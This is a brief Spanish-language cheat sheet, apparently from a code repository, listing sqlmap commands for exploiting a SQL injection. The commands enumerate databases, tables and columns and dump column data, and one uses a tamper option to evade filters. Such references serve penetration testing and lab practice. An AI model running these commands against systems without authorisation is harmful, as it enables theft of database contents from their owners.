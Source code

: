 ## Comandos básicos de la herramienta SQLMAP
#### DB
- Devuelve todas las bases de datos
`sqlmap -r /home/kali/sqli.txt -v 3 -p parametro_vuln --dbs --tamper=space2comment`

#### Tabla
- Devuelve las tablas de una DB específica
`sqlmap -r /home/kali/sqli.txt -v 3 -p parametro_vuln -D DB_name --tables`

#### Columnas
- Devuelve las columnas de una DB y tabla específica
`sqlmap -r /home/kali/sqli.txt -v 3 -p parametro_vuln -D DB_name -T Table_name --columns`

#### Datos
- Devuelve los DATOS de una columna específica
`sqlmap -r /home/kali/sqli.txt -v 3 -p parametro_vuln -D DB_name -T Table_name  --dump -C name,name,name`


